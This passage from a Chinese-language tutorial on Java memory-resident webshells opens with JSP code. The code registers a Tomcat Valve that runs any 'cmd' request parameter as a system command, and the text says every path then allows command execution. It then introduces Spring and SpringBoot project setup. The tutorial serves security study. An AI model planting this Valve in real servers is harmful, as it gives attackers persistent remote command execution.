 ```java
    class Shell_Valve extends ValveBase {
 
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
    }
%>
 
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```

![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712805732820-f5ce1829-ace9-4114-8dfc-777a2e50bfd3.png)
任意路径即可命令执行

# 5、Spring内存马

## 5.1、什么是Spring

`Spring`是一个轻量级的`Java`开源框架，用于配置、管理和维护`Bean`（组件）的一种框架，其核心理念就是`IoC`(`Inversion of Control,控制反转`) 和 `AOP`(`AspectOrientedProgramming`， 面向切面编程)。现如今`Spring`全家桶已是一个庞大的家族
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712805847378-c73593ae-18c0-4a66-8bb6-558b1e38c30f.png)
`Spring`的出现大大简化了`JavaEE`的开发流程，减少了`Java`开发时各种繁琐的配置。
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712805863120-14a7c006-b9a4-4a05-9af7-c8512ca316e0.png)
`Spring`框架的核心之一就是分层，其由许多大大小小的组件构成，每种组件都实现不同功能。
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712805911819-04119dc5-16bf-45d8-adf5-bb02eb47da3e.png)

### 5.1.1、SpringBoot

`SpringBoot` 基于 `Spring` 开发。不仅继承了`Spring`框架原有的优秀特性，它并不是用来替代 `Spring` 的解决方案，而和 `Spring` 框架紧密 结合进一步简化了`Spring`应用的整个搭建和开发过程。其设计目的是用来简化 `Spring` 应用的初始搭建以及开发过程。
采用 `Spring Boot `可以大大的简化开发模式，它集成了大量常用的第三方库配置，所有你想集成的常用框架，它都有对应的组件支持，例如 `Redis`、`MongoDB`、`Dubbo`、`kafka`，`ES`等等。`SpringBoot` 应用中这些第三方库几乎可以零配置地开箱即用，大部分的 `SpringBoot` 应用都只需要非常少量的配置代码，开发者能够更加专注于业务逻辑。 另外`SpringBoot`通过集成大量的框架使得依赖包的版本冲突，以及引用的不稳定性等问题得到了很好的解决。
下面我们就通过`IDEA`中的`Spring Initializr`来快速构建一个基于`SpringBoot`的`Web`项目
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712882842976-da92f954-3326-4cb6-828f-f87cfabac752.png)
选择`Spring Web`
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712882887674-271a2bd6-f265-4f02-bbab-e4974631f71e.png)
创建好之后，IDEA会自动创建一个启动类
![image.png](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/1712882958204-f6b606ee-0e3d-4f44-9f18-c2f6b309cd11.png)
下面我们就可以编写相应的`Controller`（控制器)及各种业务逻辑了
